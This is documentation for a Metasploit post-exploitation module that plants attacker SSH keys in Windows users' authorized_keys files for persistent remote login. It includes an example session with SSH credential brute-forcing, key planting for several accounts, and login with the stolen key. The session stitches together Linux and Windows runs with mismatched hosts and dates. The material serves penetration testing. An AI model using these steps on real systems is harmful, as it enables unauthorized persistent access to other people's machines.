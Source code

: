 This module will add an SSH key to a specified user (or all), to allow remote login on the victim via SSH at any time.

### Creating A Testing Environment

  This module has been tested against:

1. Windows 10, 1903

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use post/windows/manage/sshkey_persistence`
  4. Do: `set session #`
  5. Optional Do: `set USERNAME`
  6. Optional Do: `set SSHD_CONFIG`
  7. Do: `run`


## Options

  **SSHD_CONFIG**

  Location of the sshd_config file on the remote system.
  We use this to determine if the authorized_keys file location has changed on the system.
  If it hasn't, we default to .ssh/authorized_keys

  **USERNAME**

  If set, we only write our key to this user.  If not, we'll write to all users

  **PUBKEY**

  A public key to use.  If not provided, a pub/priv key pair is generated automatically

  **ADMIN_KEY_FILE**

  Location of public keys for Administrator level accounts

  **ADMIN**

  Add public keys for gaining access to Administrator level accounts

  **EDIT_CONFIG**

  Allow the module to edit the sshd_config to enable public key authentication

## Scenarios

Get initial access

    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'tiki:tiki' 'uid=1000(tiki) gid=1000(tiki) groups=1000(tiki),4(adm),24(cdrom),27(sudo),30(dip),
    46(plugdev),110(lxd),117(lpadmin),118(sambashare) Linux tikiwiki 4.4.0-21-generic
    #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.229:38886 -> 192.168.2.190:22) at 2016-06-19 09:52:48 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Use the post module to write the ssh key

    msf auxiliary(ssh_login) > use post/linux/manage/sshkey_persistence 
    msf post(sshkey_persistence) > set SESSION 1
    SESSION => 1
    msf post(sshkey_persistence) > set CREATESSHFOLDER true
    CreateSSHFolder => true    
    msf5 post(windows/manage/sshkey_persistence) > run
    
    [*] Checking SSH Permissions
    [*] Authorized Keys File: .ssh/authorized_keys
    [+] Storing new private key as /Users/dwelch/.msf4/loot/20200205161837_default_172.16.128.153_id_rsa_706898.txt
    [*] Adding key to C:\Users\Dean Welch\.ssh\authorized_keys
    [+] Key Added
    [*] Adding key to C:\Users\testAccount\.ssh\authorized_keys
    [+] Key Added
    [*] Post module execution completed

Verify our access works

    ssh -i /Users/dwelch/.msf4/loot/20200205153101_default_172.16.128.153_id_rsa_457054.txt testAccount@172.16.128.153
    
    Microsoft Windows [Version 10.0.18362.592]
    (c) 2019 Microsoft Corporation. All rights reserved.
    
    testaccount@DESKTOP-V8L6UUD C:\Users\testAccount>

